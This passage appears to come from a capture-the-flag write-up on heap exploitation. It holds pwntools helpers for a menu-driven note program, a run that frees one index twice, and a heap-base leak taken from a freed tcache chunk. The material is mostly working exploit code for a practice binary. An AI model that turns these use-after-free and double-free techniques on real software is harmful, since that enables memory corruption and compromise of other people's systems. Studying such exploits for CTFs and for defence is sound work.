 ```python
    io.sendline(b"1")
    io.recvuntil(b"Index? ")
    io.sendline(str(idx).encode())
    io.recvuntil(b"Content? Content? ")
    io.sendline(data)

def read(idx: int) -> bytes:
    io.recvuntil(b"> ")
    io.sendline(b"2")
    io.recvuntil(b"Index? ")
    io.sendline(str(idx).encode())
    return io.recvuntil(b"Menu:")[:-5]

def update(idx: int, data: bytes) -> None:
    io.recvuntil(b"> ")
    io.sendline(b"3")
    io.recvuntil(b"Index? ")
    io.sendline(str(idx).encode())
    io.recvuntil(b"Content? ")
    io.sendline(data)

def delete(idx: int) -> None:
    io.recvuntil(b"> ")
    io.sendline(b"4")
    io.recvuntil(b"Index? ")
    io.sendline(str(idx).encode())

def quit() -> None:
    io.recvuntil(b"> ")
    io.sendline(b"0")


io = start()

create(1, b"balls")
read(1)
update(1, b"jaws")
read(1)
delete(1)
delete(1)

io.interactive()
```

# Primatives

## Heap base leak
```python
io = start()

create(0, b"A")
delete(0)
heap_base = (u64(read(0)[:5].ljust(8, b"\x00")) << 12)
log.success(f"tcache @ {hex(heap_base)}")
```
